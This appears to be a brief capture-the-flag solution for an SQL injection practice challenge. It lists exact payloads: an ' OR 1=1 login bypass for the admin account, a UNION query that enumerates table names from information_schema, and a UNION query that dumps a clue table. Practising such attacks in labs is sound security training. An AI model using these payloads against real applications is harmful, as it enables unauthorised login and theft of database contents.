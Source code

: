 # SQL injection challenge

## Login
**Username:** `admin`  
**Password:** `' OR 1=1 -- ` (include the space at the end)

## Search Box -- Get table names
**Search Input:** `' UNION ALL SELECT table_name, 1, 1 FROM information_schema.tables WHERE table_schema=database() -- ` (include the space at the end)

## Search Box -- Get Challenge Clue
**Search Input:** `' UNION ALL SELECT *, 1 FROM challenge_clue -- ` (include the space at the end)
